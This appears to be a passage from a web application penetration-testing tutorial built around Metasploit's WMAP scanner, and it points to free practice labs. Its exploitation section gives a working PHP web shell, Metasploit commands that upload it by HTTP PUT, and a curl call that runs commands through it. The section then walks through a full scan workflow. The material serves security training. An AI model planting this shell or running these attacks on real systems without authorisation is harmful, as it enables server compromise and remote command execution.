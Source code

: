 ### Targeted Module Execution

```bash
# Run specific module categories
wmap_run -m "scanner/http"

# Focus on SQL injection testing
wmap_run -m "scanner/http/sql"
```

## Real-World Lab Environment

### PortSwigger Web Security Academy

- **Lab URL**: [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- **Access**: Completely free
- **Features**: Various vulnerable web applications for testing

### TryHackMe Web Application Security

- **Lab URL**: [TryHackMe Web Application Fundamentals](https://tryhackme.com/module/web-application-fundamentals)
- **Access**: Free account required
- **Description**: Practical web application security challenges

## Advanced Vulnerability Exploitation

### Web Shell Upload Scenario

```bash
# Create PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload using HTTP PUT
use auxiliary/scanner/http/http_put
set RHOSTS <target_ip>
set PATH /data/
set FILENAME shell.php
set FILEDATA '<?php system($_GET["cmd"]); ?>'
run

# Execute commands via web shell
curl "http://<target_ip>/data/shell.php?cmd=whoami"
```

### Comprehensive Testing Workflow

```bash
# Complete WMAP workflow
msfconsole -x "
workspace -a comprehensive_scan;
setg RHOSTS <target_ip>;
load wmap;
wmap_sites -a <target_ip>;
wmap_targets -t http://<target_ip>/;
wmap_targets -t https://<target_ip>/;
wmap_run -t;
wmap_run -e;
wmap_vulns -l;
exit"
```
